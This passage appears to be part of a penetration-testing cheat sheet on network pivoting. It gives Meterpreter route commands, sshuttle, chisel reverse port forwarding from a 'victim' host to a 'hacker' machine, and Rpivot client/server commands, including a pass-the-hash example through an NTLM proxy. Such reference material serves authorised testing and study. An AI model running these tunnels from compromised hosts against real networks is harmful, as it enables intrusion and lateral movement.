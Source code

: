     route #Meterpreter view available networks the compromised host can access
    # Meterpreter add route for 192.168.14.0/24 via Session number.
    route add 192.168.14.0 255.255.255.0 3 
    # Meterpreter delete route for 192.168.14.0/24 via Session number.
    route delete 192.168.14.0 255.255.255.0 3 
    # Meterpreter delete all routes
    route flush

## sshuttle

Transparent proxy server that works as a poor man's VPN. Forwards over ssh.

- Doesn't require admin.
- Works with Linux and MacOS.
- Supports DNS tunneling.

    pacman -Sy sshuttle
    apt-get install sshuttle
    sshuttle -vvr user@10.10.10.10 10.1.1.0/24
    sshuttle -vvr username@pivot_host 10.2.2.0/24

## chisel

    go get -v github.com/jpillora/chisel
    
    # forward port 389 and 88 to hacker computer
    user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
    user@hacker$ /opt/chisel/chisel server -p 8008 --reverse

## Rpivot

Server (Attacker box)

    python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0

Client (Compromised box)

    python client.py --server-ip <ip> --server-port 9443

Through corporate proxy

    python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
    --ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e

Passing the hash

    python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
    --ntlm-proxy-port 8080 --domain CORP --username jdoe \
    --hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE

